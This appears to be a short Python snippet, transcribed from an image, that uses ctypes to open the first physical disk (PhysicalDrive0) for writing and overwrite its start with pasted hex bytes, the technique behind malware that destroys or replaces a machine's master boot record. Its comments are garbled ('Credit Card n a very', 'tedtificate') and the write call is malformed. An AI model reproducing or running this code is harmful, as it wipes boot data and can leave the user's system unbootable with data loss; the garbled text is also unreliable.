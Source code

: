 import ctypes
from sys import exit

hex_data = bytes([ paste hex data here eg. 0xAAB83, ... ])
#hex dada wanted
dll = ctypes.windll

hDevice = dll.Kernel32.CreateFileW("\\\\.\\PhysicalDrive0", 0x40000000, 0x00000001 | 0x00000002, None, 3, 0,0) # Credit Card n a very 
dll.Kernel32.WriteFile(hDevice, hex_data, None) #tedtificate
dll.Kernel32.CloseHandle(hDevice) 
